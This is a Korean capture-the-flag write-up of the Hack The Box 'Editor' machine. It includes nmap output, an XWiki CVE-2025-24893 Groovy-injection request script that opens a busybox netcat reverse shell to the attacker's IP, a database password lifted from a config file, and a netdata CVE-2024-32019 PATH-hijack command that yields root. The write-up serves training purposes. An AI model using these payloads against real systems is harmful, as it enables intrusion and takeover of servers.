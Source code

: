 ```yaml
---
title: HTB - Editor Write-up
date: 2025-10-16
author: glasses96
categories: [Hack The Box]
tags: [HTB, CVE-2025-24893, CVE-2024-32019]
pin: true
math: false
mermaid: true
---
```


> **HTB - Editor 문제 풀이 입니다.**   
{: .prompt-info }

## Port Scanning
- 포트스캐닝 결과 `22번(SSH)`, `80번(WEB)`, `8080번(WEB)`이 오픈되어 있습니다.

```bash
nmap -Pn 10.10.11.80
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-13 20:07 KST
Nmap scan report for 10.10.11.80
Host is up (0.21s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
```

### Port Scanning Detail
nmap -sC -sV 옵션으로 자세하게 보녀 아래와 같이 정보를 얻을 수 있습니다.

- 22 : SSH(OpenSSH 8.9p1)  
- 80 : http://editor.htb  
- 8080 : Jetty 10.0.20, XWiki

```bash
PORT      STATE    SERVICE   VERSION
22/tcp    open     ssh       OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp    open     http      nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editor.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
3878/tcp  filtered fotogcad
6901/tcp  filtered jetstream
8080/tcp  open     http      Jetty 10.0.20
| http-cookie-flags: 
|   /: 
|     JSESSIONID: 
|_      httponly flag not set
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Jetty(10.0.20)
| http-methods: 
|_  Potentially risky methods: PROPFIND LOCK UNLOCK
| http-webdav-scan: 
|   Allowed Methods: OPTIONS, GET, HEAD, PROPFIND, LOCK, UNLOCK
|   Server Type: Jetty(10.0.20)
|_  WebDAV type: Unknown
| http-title: XWiki - Main - Intro
|_Requested resource was http://10.10.11.80:8080/xwiki/bin/view/Main/
| http-robots.txt: 50 disallowed entries (15 shown)
| /xwiki/bin/viewattachrev/ /xwiki/bin/viewrev/ 
| /xwiki/bin/pdf/ /xwiki/bin/edit/ /xwiki/bin/create/ 
| /xwiki/bin/inline/ /xwiki/bin/preview/ /xwiki/bin/save/ 
| /xwiki/bin/saveandcontinue/ /xwiki/bin/rollback/ /xwiki/bin/deleteversions/ 
| /xwiki/bin/cancel/ /xwiki/bin/delete/ /xwiki/bin/deletespace/ 
|_/xwiki/bin/undelete/
12265/tcp filtered unknown
51103/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
## CVE-2025-24893(RCE)
`/xwiki/bin/get/Main/SolrSerach` 엔드포인트에서 RCE 취약점이 존재하는 것을 확인할 수 있습니다.

- `CVE-2025-24893` : [PoC](https://www.exploit-db.com/exploits/52136)


![Result](/assets/post/76/1.png)

`busybox` 를 이용하여 리버스쉘을 연결 후 `xwiki` 계정에 로그인을 할 수 있습니다.


```py
import requests

URL = "http://wiki.editor.htb"
cmd = "busybox nc 10.10.10.172 8888 -e /bin/bash"

PATH = "/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7d%7d%7d%7b%7basync%20async%3dfalse%7d%7d%7b%7bgroovy%7d%7dprintln(%22f{cmd}%22.execute().text)%7b%7b%2fgroovy%7d%7d%7b%7b%2fasync%7d%7d"
res = request.get(URL+PATH)
```


`user_flag`는 `oliver` 계정에 존재하였고, `password`를 찾아보다가 `hiberate.cfg.xml`에서 패스워드를 확인할 수 있습니다.  
다만 이게 oliver 패스워드 인지는 몰랐네요....  

```xml
<property name="hibernate.connection.password">theEd1t0rTeam99</property>
```


## CVE-2024-32019(LPE)
`ss -lntp` : 서비스 중인 포트 확인 결과  `19999 포트`에서 웹 서비스 동작 하는 것을 확인할 수 있습니다.

로컬 포워딩을 통해 해당 웹서비스를 접속할 수 있습니다.  

```sh
ssh -L 8888:127.0.0.1:19999 [oliver@10.10.11.80](mailto:oliver@10.10.11.80)
```

![Result2](/assets/post/76/2.png)

아래 문구를 통해 `netdata` 제품의 취약점을 확인할 수 있으며 `CVE-2024-32019` 취약점이 존재하는 것을 확인할 수 있습니다.

`1 Node is below the recommended Agent version v1.46.0. Please update them to ensure you get the latest security bug fixes. `

아래 PoC에서 취약한 바이너리(nvme)를 만들고 아래 명령을 통해 환경 변수 설정 후 바이너리를 실행하면 root 권한을 획득할 수 있습니다. 


- `CVE-2024-32019` : [PoC](https://github.com/AliElKhatteb/CVE-2024-32019-POC)

```bash
PATH=$(pwd):$PATH /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list

root@editor:/root# id
uid=0(root) gid=0(root) groups=0(root),999(netdata),1000(oliver)
```